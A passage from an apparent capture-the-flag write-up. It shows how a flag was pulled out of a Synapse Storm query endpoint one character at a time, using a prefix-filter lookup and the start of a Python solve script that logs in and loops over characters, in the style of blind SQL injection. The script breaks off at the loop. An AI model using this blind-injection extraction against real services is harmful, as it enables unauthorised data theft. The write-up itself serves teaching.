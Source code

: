 ![](img/admin-2.png)

I got fixated on my idea of exfiltrating `meta:event:summary` character by character wrongly assuming that I could get the flag quickly that way and somehow forgot the details of the `/admin` endpoint, which lead to a lot of time wasted. Lessons learned!

## Exfiltrating the flag

Now that we know that the flag is in the `it:dev:str` node, we can apply the same method we used for the event summary to exfiltrate the flag character by character, this time using the `^=` operator which [filters by prefix](https://synapse.docs.vertex.link/en/latest/synapse/userguides/storm_ref_filter.html#filter-by-prefix), since the flag likely starts with `dam{`. We can verify that by checking that the following lookup returns "sus" on remote:

```
00000* | it:dev:str ^= "dam{" #a
```

![](img/lookup-3.png)

The solve script is very similar to the previous one, again just like a blind SQL injection.

```python
import requests
import string

s = requests.Session()
base_url = 'http://157.230.188.90'

r = s.post(f'{base_url}/login', {
    'username': 'a',
    'password': 'a'
})

flag = 'dam{'
alphabet =  '}_' + string.digits + string.ascii_letters

while not flag.endswith('}'):
```
